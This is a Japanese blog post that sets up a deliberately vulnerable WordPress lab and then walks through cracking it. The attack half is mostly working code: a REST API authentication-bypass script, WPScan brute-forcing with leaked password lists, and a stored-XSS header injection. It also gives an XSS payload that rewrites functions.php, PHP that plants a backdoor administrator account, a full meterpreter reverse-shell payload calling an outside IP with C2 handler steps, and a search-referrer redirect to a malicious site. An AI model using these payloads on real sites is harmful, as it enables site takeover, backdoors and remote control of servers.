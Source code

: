 ```yaml
---
layout: post
title:  "WordPress Build & Crack"
date:   2018-10-29
permalink: /security/:title
categories: Security
tags: WordPress
excerpt: WordPressの構築とクラッキング
mathjax: false
---
```


* content
{:toc}

# 環境構築

## php
```
# phpのインストール
yum install -y php php-mysql

# phpが動作することを確認
php -r 'print "hello world\n"'
```

## Apache httpd
```
# Apache httpdの起動
systemctl enable httpd
systemctl start httpd

# テストページの設置
cat > /var/www/html/index.php << END
<?php
phpinfo();
?>
END
```

### (option)firewalld/selinux
検証環境を手早く構築するためにセキュリティ機構を停止しています。
本来は適切なアクセス許可を付与するべきです。
```
# ファイアウォールの停止
systemctl stop firewalld

# SELinuxの停止
setenforce 0
```

テストページにアクセスして動作確認します。

![](/images/wordpress/phpinfo.png)

## MySQL(MariaDB)
WordpressのバックエンドDBのMySQLを用意します。
ここで作成するデータベース名、ユーザー名、パスワードは後で参照するので覚えておいてください。
```
# MariaDBのインストールと起動
yum install -y mariadb mariadb-server
systemctl enable mariadb
systemctl start mariadb

# データベースの初期化スクリプトを作成
cat > /tmp/init.sql << END
set password for root@localhost=password('rootpassword');
insert into user set user="wpadmin", password=password("wpadmin"), host="localhost";
create database wpdb;
grant all on wpdb.* to wpadmin;
flush privileges;
END

# データベースの初期化スクリプトを実行
mysql -u root -D mysql < /tmp/init.sql

# 以下の設定が完了したことを確認
# - rootユーザーのパスワードが変更されていること
# - wpdbデータベースが作成されていること
# - wpdbデータベースの権限を持つwpadminユーザーが作成されていること
echo 'select Db, User from db;'| mysql -u root -D mysql -prootpassword

# wpadminユーザーでログインできることを確認
echo 'show tables;'|mysql -u wpadmin -D wpdb -pwpadmin
```

## wordpress
wordpress公式が古いバージョンのWordPressを配布しています。
利用する脆弱性に応じたWordPressを取得してください。
例としてWordPress4.6.0の設置手順を記載します。
```
# wordpressのダウンロードと設置
wget https://ja.wordpress.org/wordpress-4.6-ja.tar.gz -O /tmp/wordpress-4.6-ja.tar.gz
tar -zxvf /tmp/wordpress-4.6-ja.tar.gz -C /var/www/html/
mv /var/www/html/wordpress/ /var/www/html/4.6.0/

# アクセス権限をapache:apacheに変更
chown -R apache: /var/www/html/4.6.0
```
ブラウザからwordpressのパスにアクセスすると初期設定ウィザードが開きます。
いくつかの項目を埋めてwp-config.php（Wordpressの設定ファイル）を作成します。
![](/images/wordpress/setup-config.png)

MySQLに作成したデータベース名、ユーザー名、パスワードを指定します。
ここで指定するユーザーはサイトの管理者ではありません。
![](/images/wordpress/setupconfig2.png)

wp-config.phpが作成されたらこの画面が表示されます。
まだインストール実行をクリックしないでください。
![](/images/wordpress/setupconfig3.png)

今回は脆弱性のある環境を構築するため、あらかじめWordpressの自動更新を無効化します。
```
# Wordpressの自動アップデートを無効化
echo "define('AUTOMATIC_UPDATER_DISABLED', true);" >> /var/www/html/4.6.0/wp-config.php
```

自動更新を無効化したらインストール実行をクリックします。
ここで指定するユーザーがサイトの管理者になります。
パスワードを忘れないようにメモしてください。
![](/images/wordpress/setupconfig4.png)

サイトの情報を設定してWordPressをインストールをクリックすれば構築は完了です。
![](/images/wordpress/installcomplete.png)

Hello world!にアクセスできることを確認します。
![](/images/wordpress/wpindex.png)

### (option)wp_posts
WordPressのコンテンツはデータベースに格納されています。
mysqlにアクセスすることで投稿内容やユーザーデータを確認できます。
```
# wpdbデータベースにテーブルが増えている事を確認
echo "show tables;" | mysql -u wpadmin -D wpdb -pwpadmin

# 投稿に関する情報を確認
echo "select * from wp_46posts;" | mysql -u wpadmin -D wpdb -pwpadmin

# ユーザー一覧を確認
echo "select * from wp_users;" | mysql -u wpadmin -D wpdb -pwpadmin

# ユーザー権限を確認
echo "select * from wp_usermeta where meta_key Like 'wp_capabilities';" | mysql -u wpadmin -D wpdb -pwpadmin
```

# 攻撃

## コンテンツ改ざんの脆弱性
WordPress4.7.0からREST APIが実装されました。
APIを介してコンテンツの取得、更新、削除が行えます。
REST APIが有効ならば以下のURLでコンテンツの一覧を取得できます。
```
http://localhost/4.7.0/index.php/wp-json/wp/v2/posts/
```

WordPress4.7.0のREST APIには認証バイパスの脆弱性があります。
例えば以下のコードはWordPress4.7.0のHello World!ページを書き換えます。
```
#!/usr/bin/python
import urllib, urllib2
url = "http://localhost/4.7.0/index.php/wp-json/wp/v2/posts/1/?id=1abc"
payload = {'content': 'Your are hacked!!'}
payload = urllib.urlencode(payload)
request = urllib2.Request(url, payload)
urllib2.urlopen(request)
```

Fiddler等のローカルプロキシを使ってREST APIをコールする事も出来ます。
![](/images/wordpress/fiddler02.png)

WordPressのユーザーアカウントを使わずにコンテンツを書き換えることが出来ました。
ただし、WordPressのセキュリティ機能であるksesの働きにより、XSSに繋がる<script>タグ等を書き込むことは出来ません。
ksesを突破するには特権アカウントを奪う必要があります。
![](/images/wordpress/fiddler03.png)

## ユーザーアカウントの奪取

ユーザーアカウントを奪取する最も素直な方法はログイン画面に対するブルートフォースです。
WPScanを使ってユーザーアカウントを列挙し、パスワードリストを組み合わせてアタックします。
```
# ユーザーアカウントを列挙する
wpscan -u http://target-server/wordpress-dir/ --enum users

# ユーザーアカウントを指定してパスワードリストの中からヒットする物を全探索する
wpscan -u http://target-server/wordpress-dir/ --username targetuser --wordlist passwordlist
```

ブルートフォースを行う際は、質の良いパスワードリストの入手が課題になります。
[OpenWallが提供しているpassword.gz](https://download.openwall.net/pub/wordlists/passwords/password.gz)は手軽に利用できます。
また、pastebinやtorネットワーク上に、実システムから漏えいしたパスワードリストがアップロードされる事もあります。

## XSSの脆弱性

ksesの影響を受けないXSSの脆弱性を利用すれば、簡単に特権アカウントを得ることが出来るかもしれません。
対象のWordPressに[Activity Log Plugin](https://ja.wordpress.org/plugins/aryo-activity-log/)がインストールされていれば、次の攻撃を試す価値があります。

```
post http://target-server/wordpress-dir/wp-login.php HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 28
X-Forwarded-For: <script>alert(123);</script>

log=a&pwd=a&wp-submit=Log+In
```

![](/images/wordpress/fiddler04.png)

攻撃が成功すればActivity Logにログイン試行の情報が追記されます。
Webサイトのオーナーが情報を確認したタイミングで格納型XSSが起動します。

![](/images/wordpress/log_activity01.png)

## 有用なXSSペイロード
```
#i=document.createElement('iframe');
document.body.appendChild(i);
i.src='http://localhost/4.7.0/wp-admin/theme-editor.php?file=functions.php';
window.setTimeout(
  function(){
    nc=i.contentDocument.querySelector('#newcontent');
    nc.value='<?php echo "HACK THE PLANET";phpinfo();exit()?>'+nc.value;
    nc.form.submit.click()
    }, 3000)
```

[XSS in WordPress: a tutorial](https://www.dxw.com/2017/07/wordpress-xss-tutorial/)

- payload 1: 管理ユーザー作成

```
$wpdb->insert(
  'wp_users',
  array(
    'ID' => 999,
    'user_login' => 'b@ckd00r',
    'user_pass' => md5('b@ckd00r')
    ),
  array(
    '%d',
    '%s',
    '%s'
    )
  );

$wpdb->insert(
	'wp_usermeta',
	array(
		'umeta_id' => 99999,
		'user_id' => 999,
    'meta_key' => 'wp_capabilities',
    'meta_value' => 'a:1:{s:13:"administrator";b:1;}'
	),
	array(
    '%d',
    '%d',
    '%s',
    '%s'
	)
);
```

- payload 2: リバースシェル設置

```
msfvenom -p php/meterpreter/reverse_tcp LHOST=1.1.1.1 LPORT=4444 -f raw

↓ 出力結果

/*<?php /**/ error_reporting(0); $ip = '1.1.1.1'; $port = 4444; if (($f = 'stream_socket_client') && is_callable($f)) { $s = $f("tcp://{$ip}:{$port}"); $s_type = 'stream'; } if (!$s && ($f = 'fsockopen') && is_callable($f)) { $s = $f($ip, $port); $s_type = 'stream'; } if (!$s && ($f = 'socket_create') && is_callable($f)) { $s = $f(AF_INET, SOCK_STREAM, SOL_TCP); $res = @socket_connect($s, $ip, $port); if (!$res) { die(); } $s_type = 'socket'; } if (!$s_type) { die('no socket funcs'); } if (!$s) { die('no socket'); } switch ($s_type) { case 'stream': $len = fread($s, 4); break; case 'socket': $len = socket_read($s, 4); break; } if (!$len) { die(); } $a = unpack("Nlen", $len); $len = $a['len']; $b = ''; while (strlen($b) < $len) { switch ($s_type) { case 'stream': $b .= fread($s, $len-strlen($b)); break; case 'socket': $b .= socket_read($s, $len-strlen($b)); break; } } $GLOBALS['msgsock'] = $s; $GLOBALS['msgsock_type'] = $s_type; if (extension_loaded('suhosin') && ini_get('suhosin.executor.disable_eval')) { $suhosin_bypass=create_function('', $b); $suhosin_bypass(); } else { eval($b); } die();
```

  - リバースシェルの利用

    1. C2サーバを起動する
    ```
    msfconsole
    msf > use exploit/multi/handler
    msf exploit(handler) > set payload php/meterpreter/reverse_tcp
    msf exploit(handler) > set LHOST c2_server_ip
    msf exploit(handler) > set LPORT c2_server_port
    msf exploit(handler) > exploit
    ```
    2. リバースシェルにアクセスする
    ```
    curl http://target-server/wordpress-dir/cracked.php
    ```

- payload 3: 条件分岐させる
```
<?php
$refere = $_SERVER['HTTP_REFERER'];
$ua = $_SERVER['HTTP_USER_AGENT'];
if ( preg_match('/yahoo|google|bing/ui', $refere) and preg_match('/Chrome/ui', $ua)) {
  die('<meta http-equiv="refresh" content="1;URL=http://malicious">');
}
?>
```

[commixproject](https://github.com/commixproject/commix/wiki/Upload-shells)
